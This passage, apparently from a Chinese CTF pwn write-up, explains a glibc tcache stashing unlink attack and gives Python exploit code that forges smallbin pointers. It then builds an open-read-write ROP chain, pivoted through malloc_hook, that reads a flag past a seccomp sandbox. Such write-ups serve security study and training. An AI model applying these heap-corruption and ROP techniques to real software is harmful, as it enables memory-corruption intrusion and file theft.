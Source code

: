    ```python
   #修改fd、bk指针
   fd = heap_base+0x11a0	#保证第一个smallbin的检查，与unlink检查一样
   bk = heap_base+0x20-5
   payload1 = b"A"*0x300 + p64(0) + p64(0x101) + p64(fd) + p64(bk)
   edit(1,payload1)
   
   add(0,b"a"*0xf0)
   debug()
   ```

   首先，size为0x100的chunk(符合程序的条件下，随便多大的chunk都行)个数填充为6，这样就只需要两个smallbin就能实现**tcache stashing unlink attack** ，一个给用户申请走（进行完整性检查），一个unlink后进入tcache。

   构造两个一样大的0x100的smallbin：

   ![image-20240721215746913](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407251755415.png)

   其次，修改**第二个bin的bk**指针，同时保证**第一个bin的链的完整性** （堆申请好后，**fd值与堆的基地址偏移是固定的**）：

   ![image-20240721215522346](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407212155558.png)

   最后将0x7f，写入到tcache中0x220bin的count处：

   ![image-20240721222039020](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407212220220.png)

3. 最后在栈上构造ROP读取flag即可（绕过沙箱）由于add函数是先往栈上读数据，再cpy到堆上，所以可以先将ORW读到栈上，然后在calloc时再利用malloc_hook调整栈去执行ORW：

   ```python
   
   pop_rdi_ret=libc_base+0x000000000002155f
   pop_rdx_ret=libc_base+0x0000000000001b96
   pop_rax_ret=libc_base+0x00000000000439c8
   pop_rsi_ret=libc_base+0x0000000000023e6a
   addsp48_addr = libc_base+0x000000000008a1c6
   ret=libc_base+0x00000000000008aa
   
   open_addr = libc.sym['open']+libc_base
   read_addr = libc.sym['read']+libc_base
   write_addr = libc.sym['write']+libc_base    
   syscall = read_addr+15
   flag = heap_base+0x6e0
   
   # open(0,flag)
   orw =p64(pop_rdi_ret)+p64(flag)
   orw+=p64(pop_rsi_ret)+p64(0)
   orw+=p64(pop_rax_ret)+p64(2)
   orw+=p64(syscall)			#需要使用系统调用syscall，前面直接查出来的open被沙盒搬掉了
   # orw =p64(pop_rdi_ret)+p64(flag)
   # orw+=p64(pop_rsi_ret)+p64(0)
   # orw+=p64(open_addr)		#前面直接查出来的openat被沙盒搬掉了
   
   # read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi_ret)+p64(3)
   orw+=p64(pop_rsi_ret)+p64(heap_base+0x1200)
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(read_addr)     
   
   # write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi_ret)+p64(1)
   orw+=p64(pop_rsi_ret)+p64(heap_base+0x1200)#存放地址0x50
   orw+=p64(pop_rdx_ret)+p64(0x30)
   orw+=p64(write_addr)
   
   #往malloc上写数据
   backdoor(b"aaaa")
   ```